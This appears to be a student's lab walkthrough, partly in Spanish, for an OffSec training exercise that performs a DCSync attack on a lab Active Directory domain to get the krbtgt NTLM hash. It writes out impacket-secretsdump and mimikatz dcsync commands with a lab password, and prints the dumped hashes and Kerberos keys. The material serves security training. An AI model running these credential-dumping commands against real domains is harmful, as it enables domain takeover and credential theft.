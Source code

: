 # Walk: Attacking Active Directory Authentication - Domain Controller Synchronization - VM Group 1 

## Fecha: 23/04/2025
## Host: CLIENT75
## IP: {IP}
## Objetivo
Follow the steps outlined in this section to perform the dcsync attack to obtain the NTLM hash of the krbtgt account. Enter the NTLM hash as answer to this question.
## Herramientas
1. impacket-secretsdump
2. mimikatz
## Procedimiento y comandos
#### Paso 1: Opcion 1 Impacket
- ` impacket-secretsdump -just-dc-user krbtgt corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.155.70`
```
┌──(root㉿kali)-[/home/kali/OffSec/23-ActiveDirectory-Attacks/5-DC_sync]
└─# impacket-secretsdump -just-dc-user krbtgt corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.155.70
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:e1cced9c6ef723837ff55e373d971633afb8af8871059f3451ce4bccfcca3d4c
krbtgt:aes128-cts-hmac-sha1-96:8c5cf3a1c6998fa43955fa096c336a69
krbtgt:des-cbc-md5:683bdcba9e7c5de9
[*] Cleaning up... 
```
#### Paso 2: Opcion mimikatz (una vez dentro de jeffadmin por rdp)
- `mimikatz # lsadump::dcsync /user:corp\krbtgt`
```
PS C:\Tools> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 14 2022 15:03:52
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:corp\krbtgt
[DC] 'corp.com' will be the domain
[DC] 'DC1.corp.com' will be the DC server
[DC] 'corp\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 9/2/2022 4:10:48 PM
Object Security ID   : S-1-5-21-1987370270-658905905-1781884369-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 1693c6cefafffc7af11ef34d1c788f47
    ntlm- 0: 1693c6cefafffc7af11ef34d1c788f47
    lm  - 0: 502a2719b9caa64ce84d0c319507c29b

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 1bc4ce5b23473f7ffaf4aebd664605f5

* Primary:Kerberos-Newer-Keys *
    Default Salt : CORP.COMkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : e1cced9c6ef723837ff55e373d971633afb8af8871059f3451ce4bccfcca3d4c
      aes128_hmac       (4096) : 8c5cf3a1c6998fa43955fa096c336a69
      des_cbc_md5       (4096) : 683bdcba9e7c5de9

* Primary:Kerberos *
    Default Salt : CORP.COMkrbtgt
    Credentials
      des_cbc_md5       : 683bdcba9e7c5de9
```

